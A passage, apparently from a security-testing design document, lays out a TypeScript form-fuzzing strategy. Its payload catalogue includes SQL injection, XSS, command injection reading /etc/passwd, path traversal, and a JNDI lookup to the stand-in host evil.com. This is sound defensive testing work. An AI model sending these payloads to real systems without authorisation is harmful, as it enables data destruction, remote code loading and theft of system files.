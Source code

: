 ```typescript
        }
      });
      
      visited.add(currentPath);
    }
    
    return this.buildNavigationMap(paths);
  }
}
```

---

## 🔧 **3. FUZZING STRATEGY**

### **3.1 Form Input Fuzzing**

#### **Input Categories:**
```typescript
interface FuzzingPayloads {
  textInputs: {
    sql_injection: ["'; DROP TABLE users;--", "1' OR '1'='1"],
    xss_attacks: ["<script>alert('XSS')</script>", "javascript:alert(1)"],
    buffer_overflow: [generateLongString(10000), generateLongString(100000)],
    unicode_edge: ["𝕌𝕟𝕚𝕔𝕠𝕕𝕖", "نص عربي", "中文测试"],
    null_bytes: ["\x00", "test\x00.txt"],
    format_strings: ["%s%s%s%s", "${jndi:ldap://evil.com}"],
    command_injection: ["; ls -la", "| cat /etc/passwd"],
    path_traversal: ["../../../etc/passwd", "..\\..\\windows\\system32\\drivers\\etc\\hosts"]
  };
  
  numberInputs: {
    boundary_values: [-2147483648, 2147483647, 0, -1],
    floating_point: [NaN, Infinity, -Infinity, 1.7976931348623157e+308],
    currency_edge: [-999999999.99, 999999999.99, 0.001, 0.009]
  };
  
  fileUploads: {
    malicious_files: ["malware.exe", "script.php", "shell.jsp"],
    oversized_files: [generateFile("10GB"), generateFile("0bytes")],
    invalid_formats: ["image.txt", "document.jpg", "corrupted.pdf"]
  };
}
```

#### **Form Fuzzing Implementation:**
```typescript
class FormFuzzer {
  async fuzzForm(formSelector: string, page: Page): Promise<FuzzingResult[]> {
    const results: FuzzingResult[] = [];
    
    // Discover all form inputs
    const inputs = await page.locator(`${formSelector} input, select, textarea`).all();
    
    for (const input of inputs) {
      const inputType = await input.getAttribute('type');
      const inputName = await input.getAttribute('name');
      
      // Select appropriate fuzzing payloads
      const payloads = this.getPayloadsForInputType(inputType);
      
      for (const payload of payloads) {
        try {
```